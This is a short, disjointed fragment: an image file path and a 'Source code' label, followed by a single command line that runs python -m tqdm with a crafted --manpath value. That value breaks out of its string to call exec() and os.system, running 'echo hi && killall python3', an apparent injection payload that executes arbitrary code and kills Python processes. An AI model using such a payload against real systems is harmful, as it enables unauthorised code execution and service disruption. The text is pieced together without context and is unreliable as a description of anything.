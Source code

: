 ;python -m tqdm --manpath="\" + str(exec(\"import os\nos.system('echo hi && killall python3')\")) + \""
.github
